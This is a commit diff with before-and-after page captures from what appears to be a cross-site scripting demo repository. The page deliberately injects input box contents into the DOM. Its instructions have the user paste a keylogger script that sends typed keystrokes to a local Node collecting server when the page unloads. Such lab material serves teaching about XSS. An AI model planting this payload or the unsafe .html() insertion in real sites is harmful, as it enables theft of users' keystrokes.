

Before and after one commit to leon-do/Cross-Site-Scripting-Test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 44-670 px from the top of the page, without its empty margins (0-757 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
post before unload

```diff
--- a/app.js
+++ b/app.js
@@ -13,4 +13,6 @@ var myServer = http.createServer(function(request, response){
     console.log(request.url)
 
 })
+
+console.log('server is running...')
 myServer.listen(5000);
--- a/index.html
+++ b/index.html
@@ -11,12 +11,17 @@
         <div></div>
         <pre>
 
+
+Server Side:
+- Run the node server: $ node app.js
+
+
+Client Side:
 - Copy code below
 - Paste into input box above
 - Click submit
 - Open console
 - Start typing random words
-- Go to:
 - You should see your letters displayed
 
 ------------------------------------------
@@ -32,14 +37,12 @@
     $(document).on('keypress',function(key){
         var letter = String.fromCharCode(key.charCode);
         phrase.push(letter);
-        if (key.charCode === 13){
-            $.post('http://localhost:5000/' + phrase.toString());
-        };
     });
 
-    $(document).on('click',function(){
+
+    window.onbeforeunload = function () {
         $.post('http://localhost:5000/' + phrase.toString());
-    });
+    };
 
 
 &lt;/script>
@@ -52,6 +55,7 @@
                 $("div").html($("input").val())
             })
 
+
         </script>
     </body>
 </html>
```
